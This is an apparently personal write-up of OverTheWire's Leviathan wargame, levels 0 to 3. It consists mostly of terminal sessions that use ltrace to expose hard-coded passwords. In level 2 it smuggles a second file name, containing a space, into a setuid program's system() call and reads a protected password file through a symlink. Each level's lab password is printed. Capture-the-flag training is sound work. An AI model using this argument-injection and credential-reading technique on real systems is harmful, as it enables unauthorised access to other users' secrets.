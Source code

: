 
## Leviathan

> **Dare you face the lord of the oceans?**

Leviathan is a wargame that has been rescued from the demise of intruded.net, previously hosted on leviathan.intruded.net. Big thanks to adc, morla and reth for their help in resurrecting this game!


What follows below is the original description of leviathan, copied from intruded.net:

```
Summary:
Difficulty:     1/10
Levels:         8
Platform:   Linux/x86
```

Author:
Anders Tonfeldt

Special Thanks:
We would like to thank AstroMonk for coming up with a replacement idea for the last level,
deadfood for finding a leveljump and Coi for finding a non-planned vulnerability.

Description:

This wargame doesn't require any knowledge about programming - just a bit of common
sense and some knowledge about basic *nix commands. We had no idea that it'd be this
hard to make an interesting wargame that wouldn't require programming abilities from 
the players. Hopefully we made an interesting challenge for the new ones.
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on leviathan.labs.overthewire.org through SSH on port 2223.

---



### Leviathan Level 0

#### Level Goal

To login to the first level use:
```
Username: leviathan0
Password: leviathan0
```

Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.

Solution :


```
leviathan0@leviathan:~$ ls -la
total 24
drwxr-xr-x  3 root       root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root       root       4096 Oct 29 21:17 ..
drwxr-x---  2 leviathan1 leviathan0 4096 Oct 29 21:17 .backup
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan0@leviathan:~$ cd .backup
leviathan0@leviathan:~/.backup$ ls
bookmarks.html
leviathan0@leviathan:~/.backup$ cat bookmarks.html | grep "password"
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
leviathan0@leviathan:~/.backup$
```

Credential : `leviathan1:rioGegei8m`

## Leviathan Level 1

#### Level Goal

> There is no information for this level, intentionally.


Solution :

```
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x804853b, 1, 0xffffd794, 0x8048610 <unfinished ...>
printf("password: ")                                                                                                 = 10
getchar(1, 0, 0x65766f6c, 0x646f6700password: test
)                                                                                = 116
getchar(1, 0, 0x65766f6c, 0x646f6700)                                                                                = 101
getchar(1, 0, 0x65766f6c, 0x646f6700)                                                                                = 115
strcmp("tes", "sex")                                                                                                 = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                                                                 = 29
+++ exited (status 0) +++
$ cd /etc/leviathan_pass
$ ls
leviathan0  leviathan1  leviathan2  leviathan3  leviathan4  leviathan5  leviathan6  leviathan7
$ cat *
cat: leviathan0: Permission denied
cat: leviathan1: Permission denied
ougahZi8Ta
cat: leviathan3: Permission denied
cat: leviathan4: Permission denied
cat: leviathan5: Permission denied
cat: leviathan6: Permission denied
cat: leviathan7: Permission denied
$

```
Credential : `leviathan2:ougahZi8Ta`


## Leviathan Level 2 → Level 3

#### Level Goal

> There is no information for this level, intentionally.

Solution :

```
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                          = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                = 39
geteuid()                                                                                                            = 12002
geteuid()                                                                                                            = 12002
setreuid(12002, 12002)                                                                                               = 0
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 0
+++ exited (status 0) +++
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                                                                          = -1
puts("You cant have that file..."You cant have that file...
)                                                                                   = 27
+++ exited (status 1) +++
leviathan2@leviathan:~$ mkdir /tmp/0x48piraj/ && cd /tmp/0x48piraj/
leviathan2@leviathan:/tmp/0x48piraj$ ln -s /etc/leviathan_pass/leviathan3 givemepass
leviathan2@leviathan:/tmp/0x48piraj$ echo "" > "idk givemepass"
leviathan2@leviathan:/tmp/0x48piraj$ /home/leviathan2/printfile "/tmp/0x48piraj/idk givemepass"
/bin/cat: /tmp/0x48piraj/idk: No such file or directory
Ahdiemoo1j
leviathan2@leviathan:/tmp/0x48piraj$
```

Credential : `leviathan3:Ahdiemoo1j`


```
leviathan3@leviathan:~$ ls
level3
leviathan3@leviathan:~$ ./level3
Enter the password> idk
bzzzzzzzzap. WRONG
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd794, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                                                           = -1
printf("Enter the password> ")                                                                                       = 20
fgets(Enter the password> idk
"idk\n", 256, 0xf7fc55a0)                                                                                      = 0xffffd5a0
strcmp("idk\n", "snlprintf\n")                                                                                       = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                                                                           = 19
+++ exited (status 0) +++
leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
$
```
